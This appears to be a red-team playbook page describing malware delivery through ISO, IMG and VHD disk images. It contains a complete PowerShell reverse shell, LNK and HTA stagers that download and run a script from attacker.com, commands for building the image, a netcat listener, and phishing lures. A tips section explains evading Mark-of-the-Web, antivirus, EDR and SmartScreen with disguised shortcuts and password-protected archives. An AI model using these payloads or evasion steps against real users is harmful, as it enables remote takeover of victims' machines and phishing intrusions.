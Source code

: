 # ISO/IMG/VHD Files (Virtual Media Delivery)

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows, linux, macOS 
**Prerequisites:** User must mount and open the virtual image (ISO, IMG, or VHD); SmartScreen or Defender may warn if payload is unsigned or dropped from internet


---
## Overview

**ISO/IMG/VHD files** are disk image formats that can be mounted by Windows natively. Attackers weaponize these formats by embedding **malicious executables, LNK shortcuts, HTA files, or scripts** that get executed **when the victim opens the mounted image**.

This method gained popularity in the wild (e.g., Emotet, QakBot) to **bypass email security filters**. Many mail gateways block `.exe`, `.js`, and `.vbs` , but **not zipped ISO/VHD files**. Once the user opens the archive and interacts with its contents ( clicks on a executable file ) initial code execution is achieved.


---
## How It Works

1. The attacker creates an ISO, IMG, or VHD file.
2. The virtual image contains:
   - Malicious `.lnk` file pointing to a payload
   - Or, `.exe`, `.hta`, `.js`, or `.vbs` script
3. The image is compressed into a `.zip` or `.rar` archive.
4. The victim extracts the archive, **mounts** the image, and **executes the payload** (often by clicking a disguised LNK file).
5. A connection is established back to the attacker's system (e.g., reverse shell).

Since Windows 8 and above, ISO/IMG/VHD files **automatically mount on double-click**, making execution seamless for attackers.



---
## Prerequisites

**Tools Needed**
- `msfvenom`, `PowerShell`, or other payload generator
- `mkisofs`, `PowerISO`, `oscdimg`, or `VBoxManage` (for ISO/VHD creation)
- `7-Zip` or `WinRAR` (optional: for archiving)
- Windows VM for testing


---
## Steps to Implement

1. **Create Reverse Shell Payload**
e.g : "shell.ps1"

```powershell
$client = New-Object System.Net.Sockets.TCPClient("LHOST",LPORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

2. **Create a Malicious LNK File (Optional)**

Create a `.lnk` shortcut pointing to:

```shell
powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')
```

You can use Windows Script Host Object Model or a tool like **`lnk-creator.ps1`** .
3. **Prepare the Folder Structure**

```
malicious_media/
├── invoice.lnk          # Shortcut pointing to shell.exe or web payload
```

4. **Build the ISO File**

Using **`mkisofs`** (Linux/macOS):
```shell
mkisofs -o payload.iso -J -R malicious_media/
```

Using oscdimg (Windows):
```
oscdimg -lPAYLOAD -m malicious_media payload.iso
```

Or create a VHD using Disk Management → Attach VHD → Initialize → Format → Add files → Detach → Compress.

5. **Compress ISO into ZIP ( optional )**

> use `7-zip` to bypass MOTW ( mark of the web ) windows security feature, 

This helps evade AV, EDR, and email filters that block .exe or .lnk. 

6. **Deliver to Target**

- Via phishing email: “Please review the attached ISO archive”
- Via file share or USB drop
- Via Google Drive, Dropbox, or OneDrive link

7. **Set Up Listener**

```shell
nc -lvnp 4444
```

Wait for shell access once the user opens the ISO and executes the executable file included in the image .



---
## Payload/Code Snippets

- **Example PowerShell Stager in LNK** 
```shell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"
```

- **Reverse Shell with HTA**
Embed this in a hta file and drop it inside the ISO:
```html
<script>
var r = new ActiveXObject("WScript.Shell");
r.Run("powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')");
</script>
```

- **simple powershell reverse shell** 
```powershell
$client = New-Object System.Net.Sockets.TCPClient("LHOST",LPORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```



---
## Tips

- Rename files to look benign (invoice.lnk, summary.pdf)
- Use matching icons to trick the user into clicking .lnk as if it’s a document
- Avoid detection by signing payloads or packing in ZIP + password
- Use LNKs instead of EXEs for better stealth (bypasses SmartScreen in many cases)
- Bundle decoy PDFs inside the ISO for social engineering
- use password protected `7z` archive to evade  AV, EDR, MOTW, ...



---
## References

- [MITRE ATT&CK – T1566.001: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)
- [T1203 – Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/)
- [Malicious ISO File Leads to Domain Wide Ransomware](https://thedfirreport.com/2023/04/03/malicious-iso-file-leads-to-domain-wide-ransomware/)
- [Why so, ISO? Mark-of-the-Web, explained](https://redcanary.com/blog/threat-detection/iso-files/)
- [Delivery of Malware: A Look at Phishing Campaigns in Q3 2022](https://www.fortinet.com/blog/threat-research/delivery-of-malware-phishing-campaigns-in-q3-2022?utm_source=chatgpt.com)
- [Weaponized Disk Image Files: Analysis, Trends and Remediation](https://www.crowdstrike.com/en-us/blog/weaponizing-disk-image-files-analysis/?utm_source=chatgpt.com)


---

**_Author_** : **o-sec**